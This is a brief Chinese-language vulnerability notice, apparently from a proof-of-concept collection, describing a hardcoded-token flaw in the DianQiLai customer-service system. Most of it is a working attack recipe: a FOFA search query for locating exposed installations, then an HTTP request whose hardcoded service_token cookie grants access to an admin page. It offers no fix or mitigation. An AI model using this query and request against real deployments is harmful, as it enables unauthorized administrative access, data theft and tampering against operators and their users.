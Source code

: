 # 点企来客服系统存在硬编码漏洞

点企来客服系统存在硬编码漏洞，攻击者利用此漏洞可直接进入应用系统或者管理系统，从而进行系统、网页、数据的篡改与删除，非法获取系统、用户的数据，甚至可能导致服务器沦陷。

## fofa

```yaml
body="layui-form-item" && body="/admin/login/check.html"
```

## poc

```javascript
GET /admin/custom/index.html HTTP/1.1
Host: 
Cookie: service_token=OuwfoovK%2BIdd
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
X-Requested-With: XMLHttpRequest
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409261034762.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/AeXSpX7Jrfkp8B1PjUHX-g